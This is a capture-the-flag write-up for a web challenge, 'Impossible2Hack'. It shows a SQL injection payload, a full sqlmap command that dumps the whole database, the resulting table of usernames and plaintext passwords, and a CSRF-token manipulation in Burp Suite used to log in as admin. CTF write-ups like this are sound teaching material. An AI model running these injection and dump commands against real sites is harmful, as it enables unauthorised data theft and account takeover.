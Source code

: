 # Impossible2Hack (400)

Category - Web

Challenge Question

I developed a new website and I am absolutely sure you cannot find any vulnerabilities in it

The following are the debugging credentials: username : test password : test

The Flag should be wrapped in aCTF{}

Link 1: https://impossible.pythonanywhere.com/

Hints
1) Was this the response that you were expecting?
2) It won't kill you to say please when requesting :)
3) Look for something suspicious in the request? Can you find what's wrong?

## Solution

We see there is a user login page. Let's run sql injection on it. Mostly your payload is a Boolean based with a UNION like `' 1=1 UNION SELECT * FROM USERS --` but rather than guessing all the time you could use a tool like [`sqlmap`](https://sqlmap.org/) that automates sql injections for you.

`sqlmap -u "https://impossible.pythonanywhere.com/" --data "username=*&password=*" --dump-all --risk=3 --level=5 --drop-set-cookie`

![alt text](image.png)

```
+----------+------------------------------------+-----------------+
| UID      | password                           | username        |
+----------+------------------------------------+-----------------+
| 53e51d8b | TeslaFTW                           | Nikola Tesla    |
| 8f9f50a3 | Mode0Activate                      | Rampage         |
| 31ea43b9 | Person                             | Human           |
| 1e800c34 | Teen Titans                        | Cyborg          |
| 6d9ec615 | SuperSecretPasswordImpossibleToGet | John Doe        |
| 0cbc1ff5 | Person                             | Beastboy        |
| 9e09a040 | test                               | test            |
| abebc66d | SuperSecretPasswordImpossibleToGet | admin1          |
| c8604e39 | lalalala                           | Bshpmszz        |
| e19fe490 | kongking                           | Kong.Donkey     |
| 1eaacb8b | HotChips                           | FriskyDemon     |
| ae953d76 | Whistle                            | Josh Hutcherson |
| 881510f9 | NeverGonnaGiveYouUp                | Rick Astley     |
| c81a8de8 | Spectre                            | BlueSmurf       |
| 2fbbbc70 | GangGang                           | Phoenix         |
| 61b07533 | adminabbbebeboeqfoe                | admin2          |
| 11cf0ead | djebfoewfbb                        | admin0          |
+----------+------------------------------------+-----------------+
```

We have all users. We need to login as admin. As all hints suggest we need to edit something more in the request headers. Opening the request in burpsuite.

![alt text](image-1.png)

normally csrf tokens are very large, but this one is small and the same size as uuid in the sql table we have gotten. let's input admin1 uid as the csrf token and login as admin1.

Turn on intercept and change the values of the request parameters.

![alt text](image-2.png)

![alt text](image-3.png)

`aCTF{G0t_H@Ck3D_1NdE3D}`


We are thinking hint 2 might be a hint for friend or foe